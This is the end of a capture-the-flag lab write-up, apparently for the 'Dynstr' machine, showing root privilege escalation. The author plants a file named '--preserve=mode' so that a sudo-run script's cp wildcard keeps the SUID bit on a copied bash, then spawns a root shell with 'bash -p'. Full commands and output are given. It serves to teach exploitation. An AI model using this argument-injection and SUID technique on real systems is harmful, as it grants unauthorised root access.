 This could be exploited as we could also abuse that during `cp` execution, copying a previously SUID configured file, allowing us to escalate privileges.

This was achieved by running the steps below:

- Copied `/bin/bash` to a working temp directory and changed its permissions, setting its SUID bit and creating the `.version` file.

  ```bash
  bindmgr@dynstr:/tmp$ cd $(mktemp -d)
  bindmgr@dynstr:/tmp/tmp.7i6oryDsae$ cp /bin/bash .
  bindmgr@dynstr:/tmp/tmp.7i6oryDsae$ chmod u+s bash
  bindmgr@dynstr:/tmp/tmp.7i6oryDsae$ echo 1 > .version
  bindmgr@dynstr:/tmp/tmp.7i6oryDsae$ ls -la
  total 1168
  drwx------  2 bindmgr bindmgr    4096 Aug 16 19:22 .
  drwxrwxrwt 13 root    root       4096 Aug 16 19:22 ..
  -rwsr-xr-x  1 bindmgr bindmgr 1183448 Aug 16 19:22 bash
  -rw-rw-r--  1 bindmgr bindmgr       2 Aug 16 19:22 .version
  ```

- Created a file called `--preserve=mode`, so its name could be expanded as a parameter for `cp` during script execution, copying `bash` as root but keeping SUID set. We can confirm that as well using `echo`, also below

  ```bash
  bindmgr@dynstr:/tmp/tmp.7i6oryDsae$ echo "" > ./--preserve=mode
  bindmgr@dynstr:/tmp/tmp.7i6oryDsae$ echo *
  bash --preserve=mode
  ```

- Ran the script using `sudo`

  ```bash
  bindmgr@dynstr:/tmp/tmp.7i6oryDsae$ sudo /usr/local/bin/bindmgr.sh
  sudo: unable to resolve host dynstr.dyna.htb: Name or service not known
  [+] Running /usr/local/bin/bindmgr.sh to stage new configuration from /tmp/tmp.7i6oryDsae.
  [+] Creating /etc/bind/named.conf.bindmgr file.
  [+] Staging files to /etc/bind/named.bindmgr.
  [+] Checking staged configuration.
  [-] ERROR: The generated configuration is not valid. Please fix following errors:
      /etc/bind/named.bindmgr/bash:1: unknown option 'ELF...'
      /etc/bind/named.bindmgr/bash:14: unknown option 'hȀE'
      /etc/bind/named.bindmgr/bash:40: unknown option 'YF'
      /etc/bind/named.bindmgr/bash:40: unexpected token near '}'
  ```

- Executed the `bash` binary with `-p` parameter, as stated in [bash \| GTFOBins](https://gtfobins.github.io/gtfobins/bash/#suid), giving me an interactive shell as `root` and able to read contents of `/root/root.txt` file :smiley:

```bash
bindmgr@dynstr:/tmp/tmp.7i6oryDsae$ /etc/bind/named.bindmgr/bash -p
bash-5.0# ls -la
total 1172
drwx------  2 bindmgr bindmgr    4096 Aug 16 19:10  .
drwxrwxrwt 13 root    root       4096 Aug 16 19:09  ..
-rwsr-xr-x  1 bindmgr bindmgr 1183448 Aug 16 19:10  bash
-rw-rw-r--  1 bindmgr bindmgr       1 Aug 16 19:10 '--preserve=mode'
-rw-rw-r--  1 bindmgr bindmgr       2 Aug 16 19:10  .version
bash-5.0# cd /root
bash-5.0# cat root.txt
<redacted>
```

I hope you guys have enjoyed it!

See you at the next post :smile:
